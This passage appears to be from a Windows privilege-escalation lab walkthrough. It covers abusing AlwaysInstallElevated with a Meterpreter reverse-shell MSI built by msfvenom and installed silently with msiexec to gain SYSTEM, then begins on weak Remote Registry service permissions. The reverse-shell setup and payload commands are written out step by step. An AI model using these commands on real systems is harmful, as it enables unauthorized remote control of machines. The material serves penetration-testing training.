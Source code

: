 ### Exploitation

To exploit this vulnerability generate an MSI Package file (**revshell.msi** ) utilizing the Windows Meterpreter payload as follows:

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`\
   ![](broken-reference)
6.  Open an additional command prompt and type:\
    `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] lport=[Kali VM Port] -f msi -o revshell.msi`\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
7.  Copy the generated file, revshell.msi, to the Windows VM under `C:\Temp` (using for example a previous obtained shell access):\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>


8.  Open command prompt and type: `msiexec /quiet /qn /i C:\Temp\revshell.msi`\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Now we are `NT AUTHORITY\SYSTEM`:\


<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Service Escalation - Remote Registry Service

The Service Host: <mark style="color:orange;">**Remote Registry**</mark> process, also known as “svchost.exe -k regsvc,” is a legitimate Windows system process responsible for managing the remote registry service. The remote registry service allows remote users to access and modify the Windows registry on a computer over a network connection.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

If we analyze the Access Control List for this service, we find that permissions (<mark style="color:red;">**in red**</mark>) are different from how they should be configured correctly (<mark style="color:green;">**in green**</mark>).

1. Open powershell prompt and type: \
   `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2.  Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “FullControl” permission over the registry key.\
